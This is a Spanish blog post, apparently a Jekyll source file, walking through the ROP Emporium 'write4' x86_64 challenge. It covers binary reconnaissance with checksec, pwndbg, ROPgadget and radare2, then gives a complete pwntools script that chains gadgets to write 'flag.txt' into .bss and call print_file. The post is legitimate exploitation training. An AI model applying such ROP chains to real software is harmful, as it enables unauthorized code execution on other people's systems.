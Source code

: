 ```yaml
---
layout: post
title: Write4 ROP Emporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este es otro post de la serie de writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html). Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la [***ROP***]({% post_url 2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

Concretamente en este reto, utilizaremos *ROP gadgets* para llamar a varias funciones pasándoles argumentos.

# x86_64 (Intended)
## Reconocimiento

Como siempre comenzamos lanzando checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

El enunciado:

> The important thing to realize in this challenge is that ROP is just a form of arbitrary code execution and if we’re creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won’t be using built-in functionality since that’s too similar to the previous challenges, instead we’ll be looking for gadgets that let us write a value to memory such as
`mov [reg], reg`.

Por lo que parece, será un ataque de tipo [ROP]({% post_url 2024-08-15-ROP %}).

Analizando con gdb-pwndbg, vemos las siguientes funciones:

```
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
```

Vemos que ahora la función *pwnme* se encuentra enlazada dinámicamente. Además, hay una función *printfile* a la que tendremos que llamar:

```
0x00007ffff7a00943 <+0>:	push   rbp
0x00007ffff7a00944 <+1>:	mov    rbp,rsp
0x00007ffff7a00947 <+4>:	sub    rsp,0x40
0x00007ffff7a0094b <+8>:	mov    QWORD PTR [rbp-0x38],rdi
0x00007ffff7a0094f <+12>:	mov    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a00957 <+20>:	mov    rax,QWORD PTR [rbp-0x38]
0x00007ffff7a0095b <+24>:	lea    rsi,[rip+0xd5]        # 0x7ffff7a00a37
0x00007ffff7a00962 <+31>:	mov    rdi,rax
0x00007ffff7a00965 <+34>:	call   0x7ffff7a007a0 <fopen@plt>
0x00007ffff7a0096a <+39>:	mov    QWORD PTR [rbp-0x8],rax
0x00007ffff7a0096e <+43>:	cmp    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a00973 <+48>:	jne    0x7ffff7a00997 <print_file+84>
0x00007ffff7a00975 <+50>:	mov    rax,QWORD PTR [rbp-0x38]
0x00007ffff7a00979 <+54>:	mov    rsi,rax
0x00007ffff7a0097c <+57>:	lea    rdi,[rip+0xb6]        # 0x7ffff7a00a39
0x00007ffff7a00983 <+64>:	mov    eax,0x0
0x00007ffff7a00988 <+69>:	call   0x7ffff7a00750 <printf@plt>
0x00007ffff7a0098d <+74>:	mov    edi,0x1
0x00007ffff7a00992 <+79>:	call   0x7ffff7a007b0 <exit@plt>
0x00007ffff7a00997 <+84>:	mov    rdx,QWORD PTR [rbp-0x8]
0x00007ffff7a0099b <+88>:	lea    rax,[rbp-0x30]
0x00007ffff7a0099f <+92>:	mov    esi,0x21
0x00007ffff7a009a4 <+97>:	mov    rdi,rax
0x00007ffff7a009a7 <+100>:	call   0x7ffff7a00780 <fgets@plt>
0x00007ffff7a009ac <+105>:	lea    rax,[rbp-0x30]
0x00007ffff7a009b0 <+109>:	mov    rdi,rax
0x00007ffff7a009b3 <+112>:	call   0x7ffff7a00730 <puts@plt>
0x00007ffff7a009b8 <+117>:	mov    rax,QWORD PTR [rbp-0x8]
0x00007ffff7a009bc <+121>:	mov    rdi,rax
0x00007ffff7a009bf <+124>:	call   0x7ffff7a00740 <fclose@plt>
0x00007ffff7a009c4 <+129>:	mov    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a009cc <+137>:	nop
0x00007ffff7a009cd <+138>:	leave
0x00007ffff7a009ce <+139>:	ret
```

También necesitaremos la cadena *flag.txt*, que por desgracia no está en el binario:

```
search flag.txt
Searching for value: 'flag.txt'
warning: Unable to access 16007 bytes of target memory at 0x7ffff7a01000, halting search.
```

Por tanto, debemos encontrar un gadget que nos permita escribir en una región del binario con permisos de lectura/escritura. Para ello utilizaremos ROPGadget:

```bash
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

Con este gadget podemos escribir en la dirección a la que apunte *r14*, que será una zona con permisos R/W. Para buscar dicha zona utilizaremos radare2:

```bash
r2 write4

WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time

[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

Utilizaremos la sección *.bss*, aunque *.data* debería funcionar igualmente.

Ahora nos falta un gadget que nos permita guardar valores en *r14* y *r15*:

```
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

Solo nos falta ver de dónde toma el argumento *print_file*. En este caso, viendo el código de arriba, veremos que el nombre del archivo se debe pasar en *rdi*.

```
0x0000000000400693 : pop rdi ; ret
```

## Explotación

Ya solo queda hacer el script, que quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.bits=64
exe = './write4'

def start():
    
    return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding=40*b'A' #Same as previous

# 0x0000000000400510  print_file@plt
print_file = p64(0x0000000000400510)

flag_txt = b'flag.txt'

# 0x0000000000400628 : mov qword ptr [r14], r15 ; ret
load_r14 = p64(0x0000000000400628)

rw_section = p64(0x00601038)

# 0x0000000000400690 : pop r14 ; pop r15 ; ret
pop_r14_r15 = p64(0x0000000000400690)

# 0x0000000000400693 : pop rdi ; ret
pop_rdi = p64(0x0000000000400693)

payload = padding + pop_r14_r15 + rw_section + flag_txt + load_r14 + pop_rdi + rw_section + print_file

io.send(payload)

io.interactive()
```

Un reto muy interesante para seguir afianzando conceptos. ¡Nos vemos en el próximo post!